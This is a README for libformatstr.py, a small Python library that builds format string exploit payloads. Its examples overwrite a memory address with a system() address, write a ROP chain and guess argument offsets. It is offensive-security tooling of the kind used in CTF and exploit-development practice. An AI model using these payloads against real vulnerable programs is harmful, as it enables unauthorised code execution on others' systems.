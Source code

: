 libformatstr.py
====================

Small script to simplify format string exploitation.

Usage
---------------------

* Case 1 - replace one dword:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
system_addr = 0x080489a3

p = FormatStr()
p[addr] = system_addr

# buf is 14th argument, 4 bytes are already printed
sys.stdout.write( p.payload(14, start_len=4) )
```

* Case 2 - put ROP code somewhere:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
rop = [0x080487af, 0x0804873c, 0x080488de]
p = FormatStr()
p[addr] = rop

sys.stdout.write( p.payload(14) )
```

* Case 3 - guess argument number and padding:

```python
import sys
from libformatstr import FormatStr

# let's say we have do_fmt function,
# which gives us only output of format string
# (you can also just copy fmtstr and output manually)

buf_size = 250  # fix buf_size to avoid offset variation
res = do_fmt(make_pattern(buf_size))
argnum, padding = guess_argnum(res, buf_size)

# of course you can use it in payload generation

p = FormatStr(buf_size)
p[0xbffffe70] = "\x70\xfe\xff\xbf\xeb\xfe"  # yes, you can also put strings

sys.stdout.write( p.payload(argnum, padding, 3) ) # we know 3 bytes were printed already
```

About
---------------------

Author: hellman ( hellman1908@gmail.com )

License: MIT License ( http://opensource.org/licenses/MIT )
